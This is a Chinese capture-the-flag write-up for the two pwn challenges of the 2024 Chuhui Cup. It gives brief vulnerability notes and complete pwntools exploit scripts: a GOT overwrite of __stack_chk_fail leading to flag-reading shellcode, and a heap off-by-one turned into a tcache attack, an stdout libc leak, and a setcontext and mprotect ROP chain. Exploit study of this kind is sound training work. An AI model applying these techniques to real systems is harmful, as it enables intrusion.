# 2024年第九届“楚慧杯”湖北省网络与数据安全实践能力竞赛 pwn全解-先知社区

> **来源**: https://xz.aliyun.com/news/16286  
> **文章ID**: 16286

---

# canary

## 程序保护



## 漏洞分析





这里有一个溢出 有一个任意地址写，并且开了canary 我们可以改\_\_stack\_chk\_fail 为0x4008ef也就是leave ret 然后再利用jmp rsp 就可以执行shellcode 巧妙的利用修改got表绕过 canary





## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./canary"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
rl("Say some old spells to start the journey\n")
dbg()
vuln=0x400820 
payload=p64(0x400820)
s(payload)
rl("Tell me the location of the Eye of the Deep Sea\n")
s(b'a'*8+p64(0x601038))
rl("I have magic\n")
magic=0x4008EF
jmp_rsp=0x40081B
s(p64(magic))
rl("Let's go!\n")
shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
payload=p64(0)*5+p64(jmp_rsp)+shellcode
s(payload)

inter()
```

# Ezheap

## 程序保护





## 漏洞分析



libc 2.27 存在off by one 漏洞 没有show函数 并且堆的size 没有什么限制 直接打堆叠 走tcache bin attack 两次堆叠 通过把tcache 和unsorted bin 叠在同一个堆块，然后通过另一个堆叠用tcache bin attack 去修改末尾2字节 为stdout，然后利用stdout攻击 去泄露libc。再常规mprotect+rop 思路绕沙箱就可以了,这里要注意stdout攻击后 交互脚本要改变一下

关键部分动态调试








## exp

```
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *


#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./ezheap"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
def menu(num):
    rl("Your choice:\n")
    sl(str(num))
def add(index,size):
    menu(1)
    rl("index:\n")
    sl(str(index))
    rl("Size:")
    sl(str(size))
def edit(index,content):
    menu(2)
    rl("index:\n")
    sl(str(index))
    rl("context: \n")
    s(content)
def delete(index):
    menu(3)
    rl("index:\n")
    sl(str(index))
def gift(num):
    menu(4)
    rl("choose:\n")
    sl(str(num))# 0 start_addr  & 1 heap_addr

def menu_(num):
    rl("Your choice:")
    sl(str(num))
def add_(index,size):
    menu_(1)
    rl("index:")
    sl(str(index))
    rl("Size:")
    sl(str(size))
def edit_(index,content):
    menu_(2)
    rl("index:")
    sl(str(index))
    rl("context: ")
    s(content)
def delete_(index):
    menu_(3)
    rl("index:")
    sl(str(index))

add(0,0x58)
add(1,0x58)

add(2,0x68)
edit(0,b'\x00'*0x58+p8(0xd1))
delete(1)
add(1,0xc0)
delete(2)
add(3,0x58)
add(4,0x3f8)

add(5,0x38)
add(6,0x38)
add(7,0x38)
edit(3,b'\x00'*0x58+p8(0xc1))
add(8,0xf8)
delete(4)
delete(5)
add(9,0x3f8)
gift(1)
heap_addr=int(mx.recv(14),16)
log_addr(heap_addr)
edit(1,b'a'*0x58+p64(0x71)+p64(heap_addr))
pause()
add(10,0x68)
add(11,0x68)
edit(11,b'\x60'+b'\xc7')
pause()
add(12,0x38)
add(13,0x38)
payload=p64(0xfbad1800)+p64(0)*3+b'\x00'
edit(13,payload)
libc_addr=l64()-0x3ed8b0

log_addr(libc_addr)
libc.address=libc_addr
system=libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh\0'))
free_hook=libc.sym['__free_hook']
setcontext_53 = libc.sym['setcontext'] + 53
add_(14,0x28)
add_(15,0x28)

add_(16,0x28)

edit_(14,b'\x00'*0x28+p8(0x61))
delete_(15)
add_(15,0x58)
delete_(16)
edit_(15,b'a'*0x28+p64(0x31)+p64(free_hook))
pause()
add_(17,0x28)
add_(18,0x28)
edit_(0,b'flag')
edit_(18,p64(setcontext_53))
#------------------------------------------
edit_(0,b'flag')
pop_rdi=0x000000000002164f+libc_addr
pop_rsi=0x0000000000023a6a+libc_addr
pop_rdx=0x0000000000001b96+libc_addr
open_addr=libc.sym['open']
read_addr=libc.sym['read']
write_addr=libc.sym['write']
mprotect_addr=libc.sym['mprotect']
flag_addr=heap_addr-0x590
orw=b''
orw+=p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(open_addr)
orw+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(read_addr)
orw+=p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_addr)+p64(pop_rdx)+p64(0x30)+p64(write_addr)

pause()

edit_(9,orw)
rop_addr=heap_addr-0x400
#payload=p64(heap_addr)*+p64(heap_addr-0x400)
p1=b''
p1 = p1.ljust(0x68, b'\x00') + p64(heap_addr-0x7f0)
p1 = p1.ljust(0x70, b'\x00') + p64(0x2000)
p1 = p1.ljust(0x78, b'\x00') + p64(rop_addr)

p1 = p1.ljust(0x88, b'\x00') + p64(7)
p1 = p1.ljust(0xa0, b'\x00') + p64(rop_addr)
p1 = p1.ljust(0xa8, b'\x00') + p64(mprotect_addr)
edit_(8,p1)
delete_(8)
inter()
```

楚慧杯也就两个pwn题，我是中午才看的，听师傅们吐槽说好多是原题，查了一下还真是 canary这题和源鲁杯那个一模一样，旧脚本都能直接打...... 也是小小吐槽一下
